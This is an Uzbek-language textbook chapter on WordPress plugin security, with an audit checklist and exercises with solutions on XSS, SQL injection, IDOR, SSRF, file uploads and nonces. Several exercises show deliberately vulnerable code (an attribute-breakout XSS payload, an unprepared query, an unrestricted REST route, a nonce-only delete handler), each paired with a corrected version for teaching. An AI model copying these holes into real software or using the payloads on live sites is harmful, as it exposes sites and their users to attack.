- [ ] **Har bir `$wpdb` so'rovi** — `prepare` bilanmi? `LIKE` da `esc_like`? identifikator `%i`?
- [ ] **Har bir REST route** — `permission_callback` haqiqiy tekshiruv qiladimi (`__return_true` emas, agar public bo'lmasa)?
- [ ] **Har bir tashqi URL so'rovi** — `wp_safe_remote_*`?
- [ ] **Har bir fayl yuklash** — `wp_check_filetype_and_ext` + `wp_handle_upload` + allowlist?
- [ ] **`unserialize`/`maybe_unserialize`** — foydalanuvchi ma'lumotida ishlatilmaganmi?
- [ ] **Sirlar** (API kalit, parol) — kodda hardcode qilinmaganmi, log'ga yozilmaganmi?

📌 **Audit — bir martalik emas, jarayon.** Har yangi funksiya, har yangi REST endpoint, har yangi forma qo'shilganda shu checklist'dan o'tkazing. Eng yaxshi plugin'lar CI'da (25-bob) PHPCS security sniff'larini **avtomatik** ishlatadi — shunda har commit tekshiriladi.

---

## Xulosa

- **Tahdid modeli:** plugin = yangi hujum yuzasi. Ma'lumot qayerdan kiradi, qayerga chiqadi, kim so'raydi — auditning birinchi qadami.
- **Defense-in-depth:** to'rt mustaqil qatlam — sanitize (kirish), nonce + capability (jarayon), prepare (baza), escape (chiqish). Bitta qatlam tushsa, boshqasi himoya qiladi.
- **Nonce:** 12/24 soat amal qiladi, **action-specific** bo'lishi shart, va u **CSRF himoyasi** — autentifikatsiya emas. Doim `current_user_can` bilan birga.
- **Escape kontekst:** noto'g'ri kontekst = XSS. Atributda `esc_attr` (tirnoqdan chiqishni to'sadi), URL'da `esc_url` (`javascript:` bloklaydi), JS'da `esc_js`, HTML allowlist'da `wp_kses_post`.
- **SQL:** `prepare` har doim — `%s`/`%d`/`%f`/`%i` (6.2+); `LIKE` uchun `esc_like` + `%s`; `IN (...)` uchun dinamik placeholder generatsiyasi.
- **Fayl yuklash:** `wp_check_filetype_and_ext` (mazmun = kengaytma?) + `wp_handle_upload` (allowlist, xavfsiz papka) + server PHP'ni `uploads/` da bajarmasligi. `.svg` ehtiyot.
- **REST:** `permission_callback` hech qachon ko'r-ko'rona `__return_true` emas; IDOR (egalik tekshir), SSRF (`wp_safe_remote_*`), object injection (`unserialize` o'rniga `json_decode`).
- **Audit jarayoni:** PHPCS security sniff'lari (avtomatik) -> WPScan (jonli, o'z saytda) -> qo'lda checklist (mantiqiy zaifliklar).

Keyingi va oxirgi bobda — **kapston**: shu kitobda o'rganganlarning hammasini (CPT, taxonomy, meta, REST, blok, i18n va **bu bobdagi xavfsizlik qatlamlari**) bitta to'liq professional plugin'da birlashtirgan holda quramiz.

---

## 29-bob mashqlari

> Mashqlar `kitoblar-katalogi` plugini ustida ishlaydi (namespace `Oqil\KitobKatalog`, prefiks `kitkat_`, CPT `kitob`). Sof-PHP mashqlarni `php` bilan, WP kodini o'z test saytingizda sinang. Exploit misollarini **faqat** ruxsatingiz bor muhitda sinang.

### Oson

1. **(Oson)** Defense-in-depth nima? To'rt himoya qatlamini va har biri qaysi zaiflikdan himoyalashini ayting.
2. **(Oson)** Nonce qancha vaqt yaroqli? `wp_verify_nonce` `1`, `2` va `false` qachon qaytaradi?
3. **(Oson)** "Nonce autentifikatsiya emas" jumlasini o'z so'zlaringiz bilan tushuntiring. Nonce'siz nima yetishmaydi?
4. **(Oson)** Quyidagi qatorda qaysi zaiflik bor va qaysi funksiya tuzatadi: `echo '<input value="' . $_GET['q'] . '">';`
5. **(Oson)** `esc_url` `href="javascript:alert(1)"` ni qanday to'sadi? U nima qiladi?
6. **(Oson)** REST route'da `permission_callback => '__return_true'` qachon **xato**, qachon to'g'ri?

### O'rta

7. **(O'rta)** Atributdan "chiqib ketish" XSS zanjirini bosqichma-bosqich tushuntiring: hujumchi `" onmouseover="alert(1)` kiritsa, escape'siz HTML qanday bo'ladi va nega JS ishga tushadi? `esc_attr` zanjirni qayerda uzadi?

<details markdown="1"><summary>Yechim</summary>

Escape'siz kod `value="' . $q . '"` ga `$q = '" onmouseover="alert(1)'` qo'yilsa:

```html
<input value="" onmouseover="alert(1)">
```

Birinchi `"` (hujumchidan) `value=""` ni yopadi. Keyin `onmouseover="alert(1)"` — to'liq yangi HTML atribut bo'lib qoladi. Sichqon input ustiga kelganda brauzer `onmouseover` ni hodisa sifatida bajaradi -> XSS.

`esc_attr` `"` ni `&quot;` ga aylantiradi:

```html
<input value="&quot; onmouseover=&quot;alert(1)">
```

Endi `&quot;` atributni **yopmaydi** — hammasi `value` atributining oddiy matni bo'lib qoladi, hech qanday yangi atribut yaratilmaydi. Zanjir 2-bosqichda (atributga qo'yishda) uziladi.
</details>

8. **(O'rta)** `LIKE` qidiruvini xavfsiz yozing: `kitoblar-katalogi` da kitob nomi bo'yicha qidiruv. `esc_like` va `prepare` ni to'g'ri tartibda ishlating va nega tartib muhimligini tushuntiring.

<details markdown="1"><summary>Yechim</summary>

```php
global $wpdb;
$q    = sanitize_text_field( wp_unslash( $_POST['q'] ?? '' ) );
$like = '%' . $wpdb->esc_like( $q ) . '%';
$natija = $wpdb->get_results(
	$wpdb->prepare(
		"SELECT post_title FROM {$wpdb->posts}
		 WHERE post_type = %s AND post_status = %s AND post_title LIKE %s",
		'kitob',
		'publish',
		$like
	)
);
```

Tartib: avval `esc_like` (LIKE ning maxsus `%`/`_`/`\` belgilarini qochiradi), keyin `%s` (SQL string sifatida xavfsiz qochiradi). Agar `esc_like`'ni o'tkazib yuborsangiz, foydalanuvchi `%` kiritib qidiruvni buzadi (yoki DoS). `%s` o'zi `%`/`_` ni qochirmaydi — u faqat SQL injeksiyadan himoyalaydi.
</details>

9. **(O'rta)** REST endpoint IDOR'ga zaif: `permission_callback => '__return_true'` va callback `get_user_meta( $req['id'], ... )` qaytaradi. IDOR nima va `permission_callback` ni qanday tuzatasiz?

<details markdown="1"><summary>Yechim</summary>

IDOR (Insecure Direct Object Reference) — hujumchi URL'dagi ID'ni o'zgartirib (`?id=2` -> `?id=1`), o'ziga tegishli bo'lmagan obyektga kiradi. Bu yerda har kim `id=1` (admin) so'rab, admin meta'sini oladi.

```php
'permission_callback' => static function ( \WP_REST_Request $req ): bool {
	$soralgan = absint( $req['id'] );
	return get_current_user_id() === $soralgan || current_user_can( 'list_users' );
},
'args' => [ 'id' => [ 'sanitize_callback' => 'absint' ] ],
```

`current_user_can('read')` IDOR'ni to'smaydi (har kimda bor). So'ralgan **konkret obyekt** uchun egalik (`get_current_user_id() === $soralgan`) yoki maxsus capability (`list_users`) tekshiriladi.
</details>

10. **(O'rta)** `%i` joy egasi nima uchun? Foydalanuvchi tanlagan saralash ustuni bo'yicha `ORDER BY` ni xavfsiz yozing. Nega `%i` bo'lsa ham allowlist qoldirasiz?

<details markdown="1"><summary>Yechim</summary>

```php
global $wpdb;
$ruxsat = [ 'post_title', 'post_date', 'menu_order' ];
$ustun  = in_array( $_GET['sort'] ?? '', $ruxsat, true ) ? $_GET['sort'] : 'post_date';
$natija = $wpdb->get_results(
	$wpdb->prepare(
		"SELECT ID, post_title FROM {$wpdb->posts}
		 WHERE post_status = %s ORDER BY %i DESC",
		'publish',
		$ustun
	)
);
```

`%i` (WordPress 6.2+) — identifikator (ustun/jadval nomi) sifatida xavfsiz qochiradi, SQLi'ni to'sadi. Lekin foydalanuvchi mavjud bo'lmagan ustun nomini bersa, so'rov xato beradi. `in_array(..., true)` allowlist'i — qo'shimcha qatlam (defense-in-depth): faqat haqiqiy ustunlarga ruxsat, qolgani standart `post_date`.
</details>

11. **(O'rta)** Foydalanuvchi `?url=...` orqali URL bersa, plugin shu URL'dan ma'lumot oladi. SSRF nima, va `wp_remote_get` o'rniga nimani ishlatasiz? Kod yozing.

<details markdown="1"><summary>Yechim</summary>

SSRF (Server-Side Request Forgery) — hujumchi serverni o'zi yetolmaydigan ichki manzilga (`http://localhost/`, cloud metadata `http://169.254.169.254/`) so'rov yuborishga majburlaydi.

```php
$url   = esc_url_raw( wp_unslash( $_POST['url'] ?? '' ) );
$javob = wp_safe_remote_get( $url, [ 'timeout' => 10 ] );
if ( is_wp_error( $javob ) ) {
	return new \WP_Error( 'http', $javob->get_error_message() );
}
$tana = wp_remote_retrieve_body( $javob );
```

`wp_safe_remote_get` ichki `reject_unsafe_urls = true` o'rnatadi — URL va u yo'naltirgan har bir manzil `wp_http_validate_url()` bilan tekshiriladi, ichki/xavfli manzillar rad etiladi. `wp_remote_get` buni qilmaydi.
</details>

12. **(O'rta)** PHPCS'ning uchta security sniff'i qaysi zaifliklarni tutadi? Nega PHPCS IDOR'ni topa olmaydi?

<details markdown="1"><summary>Yechim</summary>

- `WordPress.Security.EscapeOutput` — escape qilinmagan `echo`/`print` (XSS).
- `WordPress.Security.NonceVerification` — nonce tekshiruvisiz `$_POST`/`$_GET` ishlatish (CSRF).
- `WordPress.Security.ValidatedSanitizedInput` — sanitize qilinmagan superglobal kirish.

PHPCS **naqsh** (pattern) bilan ishlaydi — "bu `echo` escape'siz", "bu `$_POST` sanitize'siz" kabi sintaktik holatlarni tutadi. IDOR esa **mantiqiy** zaiflik: kod sintaktik to'g'ri (nonce ham, capability ham bor), lekin huquq tekshiruvi **noto'g'ri obyektga** qo'llanadi. Buni faqat kod mantiqini tushungan inson (yoki maxsus test) topadi. Shuning uchun avtomatik vosita + qo'lda audit birga kerak.
</details>

### Qiyin

13. **(Qiyin)** Sof-PHP `kitkat_in_placeholders( array $ids )` funksiyasini yozing: ID massividan `IN (...)` uchun `%d,%d,...` placeholder satrini va tozalangan ID'lar massivini qaytarsin. `php` bilan ishlasin va test holatlarini chop etsin.

<details markdown="1"><summary>Yechim</summary>

```php
function kitkat_in_placeholders( array $ids ): array {
	$ids = array_values( array_filter( array_map( 'absint', $ids ) ) ); // tozalash
	$ph  = $ids ? implode( ',', array_fill( 0, count( $ids ), '%d' ) ) : '';
	return [ 'placeholders' => $ph, 'ids' => $ids ];
}

var_dump( kitkat_in_placeholders( [ 3, '5', 0, -2, 'x' ] ) );
// placeholders => "%d,%d,%d" (3, 5, 2 qoladi; 0 va 'x'->0 olib tashlanadi)
var_dump( kitkat_in_placeholders( [] ) );
// placeholders => "" , ids => []
```

`array_map('absint', ...)` har ID'ni manfiy bo'lmagan butunga aylantiradi, `array_filter` 0'larni tashlaydi, `array_values` indekslarni qayta tartiblaydi. So'rovda: `$wpdb->prepare( "...WHERE ID IN ($ph)", ...$ids )`. Placeholder satri **faqat `%d` lardan** iborat (foydalanuvchi qiymati emas), ID'lar argument sifatida o'tadi — SQLi'siz.
</details>

14. **(Qiyin)** To'liq xavfsiz fayl yuklash funksiyasini yozing: nonce + capability + `wp_check_filetype_and_ext` (faqat JPG/PNG/WEBP) + `wp_handle_upload`. Har bir xavfsizlik qadamini izohlang.

<details markdown="1"><summary>Yechim</summary>

```php
namespace Oqil\KitobKatalog;

function kitkat_muqova_yukla(): array|\WP_Error {
	// 1) NONCE — CSRF himoyasi
	check_admin_referer( 'kitkat_muqova_yukla', 'kitkat_nonce' );

	// 2) CAPABILITY — yuklash huquqi
	if ( ! current_user_can( 'upload_files' ) ) {
		return new \WP_Error( 'ruxsat', 'Yuklash huquqi yo\'q.' );
	}

	if ( empty( $_FILES['kitob_muqova']['name'] ) ) {
		return new \WP_Error( 'fayl_yoq', 'Fayl tanlanmagan.' );
	}

	$ruxsat_mimes = [
		'jpg|jpeg' => 'image/jpeg',
		'png'      => 'image/png',
		'webp'     => 'image/webp',
	];
	$file = $_FILES['kitob_muqova'];

	// 3) MAZMUN = KENGAYTMA? — soxta MIME / .php->.jpg ni tutadi
	$tekis = wp_check_filetype_and_ext( $file['tmp_name'], $file['name'], $ruxsat_mimes );
	if ( empty( $tekis['ext'] ) || empty( $tekis['type'] ) ) {
		return new \WP_Error( 'tur', 'Faqat JPG, PNG yoki WEBP ruxsat etilgan.' );
	}

	// 4) XAVFSIZ JOYLASH — WordPress allowlist + noyob nom + uploads/
	$natija = wp_handle_upload( $file, [
		'test_form' => false,
		'mimes'     => $ruxsat_mimes,
	] );
	if ( isset( $natija['error'] ) ) {
		return new \WP_Error( 'yuklash', $natija['error'] );
	}
	return $natija;
}
```

`wp_check_filetype_and_ext` fayl mazmunini kengaytma bilan solishtiradi (`.jpg` deb nomlangan PHP tutiladi). `wp_handle_upload` allowlist tashqarisini rad etadi, noyob nom beradi va `uploads/`ga joylaydi. `test_form => false` chunki formani biz nonce bilan tekshirdik. Yana bir qatlam: `uploads/` da server PHP'ni bajarmasligi (hosting/`.htaccess`).
</details>

15. **(Qiyin)** Quyidagi REST endpoint'da **to'rtta** xavfsizlik nuqsoni bor (har xil tur). Hammasini aniqlang, zaiflik turini ayting va tuzatilgan versiyani yozing:

```php
register_rest_route( 'kitkat/v1', '/kitob/(?P<id>\d+)', [
	'methods'             => 'POST',
	'permission_callback' => '__return_true',
	'callback'            => function ( $req ) {
		global $wpdb;
		$nom = $req['nom'];
		$wpdb->query( "UPDATE {$wpdb->posts} SET post_title = '$nom' WHERE ID = " . $req['id'] );
		return [ 'nom' => $nom ];
	},
] );
```

<details markdown="1"><summary>Yechim</summary>

Nuqsonlar:

1. **Ruxsat yo'q / IDOR** — `permission_callback => '__return_true'` har kimga, har qanday kitobni o'zgartirishga ruxsat beradi.
2. **SQLi** — `$nom` va `$req['id']` to'g'ridan-to'g'ri so'rovga yopishtirilgan.
3. **Sanitize yo'q** — `$req['nom']` tozalanmagan.
4. **XSS (chiqishda escape yo'q)** — `'nom' => $nom` xom qaytariladi (REST javobi JSON, lekin u keyin DOM'ga qo'yilsa zaiflik; kamida sanitize shart).

Tuzatilgan:

```php
register_rest_route( 'kitkat/v1', '/kitob/(?P<id>\d+)', [
	'methods'             => 'POST',
	'permission_callback' => static function ( \WP_REST_Request $req ): bool {
		return current_user_can( 'edit_post', absint( $req['id'] ) ); // ruxsat + IDOR
	},
	'args'                => [
		'id'  => [ 'sanitize_callback' => 'absint' ],
		'nom' => [ 'sanitize_callback' => 'sanitize_text_field' ], // sanitize
	],
	'callback'            => static function ( \WP_REST_Request $req ): array {
		$id  = absint( $req['id'] );
		$nom = sanitize_text_field( $req['nom'] );
		// SQL o'rniga WordPress API — eng xavfsiz:
		wp_update_post( [ 'ID' => $id, 'post_title' => $nom ] );
		return [ 'nom' => $nom ];
	},
] );
```

`permission_callback` aniq `edit_post, $id` tekshiradi (IDOR + ruxsat). `args` sanitize_callback bilan kirishni tozalaydi. `wp_update_post` `$wpdb` xom so'roviga qaraganda xavfsiz (prepare'ni o'zi qiladi). Agar baribir `$wpdb` kerak bo'lsa — `prepare( "...post_title = %s WHERE ID = %d", $nom, $id )`.
</details>

16. **(Qiyin)** "Nonce autentifikatsiya emas" tushunchasini real exploit bilan ko'rsating: faqat nonce'ga tayangan "kitob o'chirish" handler'ini yozing, undan keyin obunachi roli uni qanday suiiste'mol qilishini tushuntiring, va to'g'rilangan (nonce + capability + obyekt ID) versiyani yozing.

<details markdown="1"><summary>Yechim</summary>

Zaif (faqat nonce):

```php
function kitkat_ochir_zaif(): void {
	check_admin_referer( 'kitkat_ochir', 'kitkat_nonce' );
	wp_delete_post( absint( $_GET['kitob_id'] ?? 0 ), true );
}
```

Suiiste'mol: login bo'lgan **obunachi** (eng past rol) admin sahifaga kira olmasa ham, agar bu handler `admin-post.php` orqali chaqirilsa va nonce ko'rinadigan joyda bo'lsa — obunachi haqiqiy nonce oladi (nonce har login foydalanuvchiga beriladi). Nonce faqat "haqiqiy formadan keldimi?" deydi — obunachining nonce'si ham haqiqiy. Capability yo'qligi sababli obunachi istalgan kitobni o'chiradi.

To'g'rilangan:

```php
function kitkat_ochir_tugri(): void {
	$kitob_id = absint( $_GET['kitob_id'] ?? 0 );
	check_admin_referer( 'kitkat_ochir_' . $kitob_id, 'kitkat_nonce' ); // intent, obyektga xos
	if ( ! current_user_can( 'delete_post', $kitob_id ) ) {             // ruxsat + IDOR
		wp_die( esc_html__( 'Ruxsat yo\'q.', 'kitoblar-katalogi' ) );
	}
	wp_delete_post( $kitob_id, true );
}
```

Endi: nonce CSRF'dan, `current_user_can('delete_post', $kitob_id)` ruxsatsiz va begona obyektdan (IDOR) himoyalaydi. Nonce action'iga `$kitob_id` qo'shilgani — har kitobga noyob, qayta ishlatib bo'lmaydi. Xulosa: nonce + capability **doim birga**.
</details>

---

[⬅️ Oldingi: 28 — Distribution: readme.txt, SVN, yangilanish](./28-distribution.md) · [🏠 README](./README.md) · [Keyingi: 30 — Yakuniy kapston: to'liq professional plugin ➡️](./30-kapston.md)
